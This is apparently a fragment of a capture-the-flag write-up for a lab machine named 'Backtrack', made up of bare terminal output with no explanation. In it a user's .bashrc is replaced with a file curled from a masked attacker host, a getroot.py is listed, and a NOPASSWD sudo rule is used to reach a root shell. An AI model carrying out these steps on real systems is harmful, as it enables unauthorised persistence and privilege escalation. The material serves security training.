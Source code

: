 ```bash
IncludeOptional sites-enabled/*.conf

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```


```bash
orville@Backtrack:/home/orville$ curl http://xx.xxx.xx.x:8000/.bashrc -o .bashrc
...
orville@Backtrack:/home/orville$ ls -lah
ls -lah
[total 80K
drwxrwx--- 4 orville orville 4.0K Sep 28 00:04 .
drwxr-xr-x 4 root    root    4.0K Mar  9  2024 ..
lrwxrwxrwx 1 root    root       9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 orville orville 3.8K Sep 27 xx:xx .bashrc
drwxrwxrwx 3 orville orville 4.0K Sep 27 xx:xx .local
lrwxrwxrwx 1 root    root       9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 orville orville  807 Mar  9  2024 .profile
drwxrwxrwx 2 orville orville 4.0K Sep 27 xx:xx .ssh
-rw------- 1 orville orville   38 Mar  9  2024 flag2.txt
-rwxrwxrwx 1 orville orville  257 Sep 27 xx:xx getroot.py
-rwx------ 1 orville orville  46K Sep 27 xx:xx web_snapshot.zip
```

```bash
orville@Backtrack:/home/orville$ sudo -l
sudo -l
Matching Defaults entries for orville on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User orville may run the following commands on Backtrack:
    (ALL) NOPASSWD: ALL
```

```bash
orville@Backtrack:/home/orville$ sudo -l
sudo -l
Matching Defaults entries for orville on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User orville may run the following commands on Backtrack:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```

```bash	
orville@Backtrack:/home/orville$ sudo su -
sudo su -
```

```bash
root@Backtrack:~# pwd
pwd
/root
```
